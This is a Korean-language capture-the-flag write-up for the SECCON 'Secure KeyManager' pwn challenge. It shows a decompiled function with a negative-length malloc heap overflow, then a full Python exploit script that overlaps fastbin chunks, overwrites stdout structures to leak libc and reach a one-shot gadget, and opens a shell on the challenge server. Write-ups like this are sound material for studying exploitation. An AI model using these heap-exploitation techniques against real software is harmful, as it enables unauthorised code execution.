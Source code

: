 Secure KeyManager 400 (Solver : 36) - pwn
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE             |
|---------------|--------------|------------|--------|----------|------------|------------------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | Securekeymanager | 

x64 바이너리이다.

### 3. Vulnerability
```c
int add_key()
{
  int result; // eax
  __int64 v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+0h] [rbp-10h]
  unsigned int v3; // [rsp+4h] [rbp-Ch]
  char *v4; // [rsp+8h] [rbp-8h]

  LODWORD(v1) = 0;
  while ( v1 <= 7 && key_map[v1] )
    LODWORD(v1) = v1 + 1;
  if ( v1 > 7 )
    return puts("can't add key any more...");
  puts("ADD KEY");
  printf("Input key length...", v1);
  v3 = getint();
  v4 = malloc(v3 + 0x20LL); // v3 -> -32
  if ( !v4 )
    return puts("can not allocate...");
  printf("Input title...");
  getnline(v4, 32LL); // Heap Overflow!!
  printf("Input key...");
  getnline(v4 + 32, v3);
  key_list[v2] = v4;
  result = v2;
  key_map[v2] = 1;
  return result;
}
```
malloc을 할때 일부로 0바이트를 할당하도록 유도한다음, heap overflow를 내면 다음 청크의 사이즈까지 덮을 수 있다.

### 4. Exploit

Size 조작이 가능하므로 0x70 Chunk를 이용하여 Chunk Overlap을 낸다음 fastbin의 fd를 overwrite하여 exploit 하면 된다. (Edit 에서 32보다 더 큰값을 쓸 수 있는것을 이용)

```python
from ntpwn import *

#s = process('./secu', LIBC('./libc-2.23.so'))
l = ELF('./libc-2.23.so')
s = remote('secure_keymanager.pwn.seccon.jp',47225)
'''
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()
'''

def add(key_len, title, key):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)
	s.sendlineafter('...',key)

def negative_add(key_len, title):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)

def remove(target):
	s.sendlineafter('>> ','4')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)

def edit(target,context):
	s.sendlineafter('>> ','3')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)
	s.sendlineafter('...',context)

prompt = '>> '

pause()

s.sendlineafter(prompt,'A')
s.sendlineafter(prompt,'1')

s.sendlineafter(prompt,'9')
s.sendlineafter(prompt,'A' * 24)

s.recv(33)
libc_base = u64(s.recv(6) + '\x00' * 2) - 0x3c560a
oneshot = libc_base +0x4526a

log.info('LIBC_BASE : ' + hex(libc_base))
log.info('ONESHOT : ' + hex(oneshot))

negative_add('-32','A')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
remove('0')
negative_add('-32',"A" * 0x18 + p64(0xe1)[:-1])
remove('1')
remove('2')
add(str(0xd8-32),'A' * 0x10 ,'1')
edit('1','B' * 0x48 + p64(0x70) + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0x9d))

add(str(0x68-32),'A' * 0x10 ,'1')

payload = '\x00' * 0x2a + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0xc0)
payload += p64(libc_base + l.symbols['_IO_2_1_stdout_'])
payload += p64(oneshot) * 5

pause()
negative_add(str(0x68-32), payload)

s.interactive()

s.sendlineafter('>> ','1')
s.sendlineafter('...','A')


s.interactive()
```
